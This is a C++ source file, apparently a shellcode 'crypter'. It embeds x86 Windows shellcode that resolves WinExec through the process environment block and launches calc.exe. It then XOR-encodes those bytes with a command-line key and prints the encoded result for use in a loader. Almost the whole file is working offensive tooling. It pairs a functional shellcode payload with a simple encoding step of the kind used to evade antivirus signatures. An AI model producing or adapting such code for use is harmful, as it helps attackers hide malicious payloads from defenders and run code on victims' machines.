 #include <iostream>
#include <cstring>

using namespace std;

// example shellcode that run calc.exe
unsigned char shellcode[] = 
		"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
		"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
		"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
		"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
		"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
		"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
		"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
		"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
		"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
		"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
		"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
		"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
		"\x52\xff\xd0";

unsigned char* encryptShellcode(unsigned char decryptedShellcode[], int shellcodeLength, unsigned char xorKey) {
  unsigned char* encryptedShellcode = new unsigned char[shellcodeLength];
  
  // Decrypt each hex character using XOR function
  for (int i = 0; i < shellcodeLength; i++) {
    encryptedShellcode[i] = decryptedShellcode[i] ^ xorKey;
  }

  return encryptedShellcode;
}

int main(int argc, char **argv) {
	if (argc != 2) {
		cout << "usage: crypter.exe key" << endl;
		return -1;
	}

	int key = atoi(argv[1]);

	int shellcodelen = sizeof(shellcode);

	unsigned char* EncryptedShellcode	= encryptShellcode(shellcode, shellcodelen, key);

	// cout << "unsigned char encoded_shellcode[] = " << endl;
	for (int i = 0; i < shellcodelen - 1; i++) {
		cout << "\\x" << hex << (int)EncryptedShellcode[i];
	}

	delete[] EncryptedShellcode;

	return 0;
}
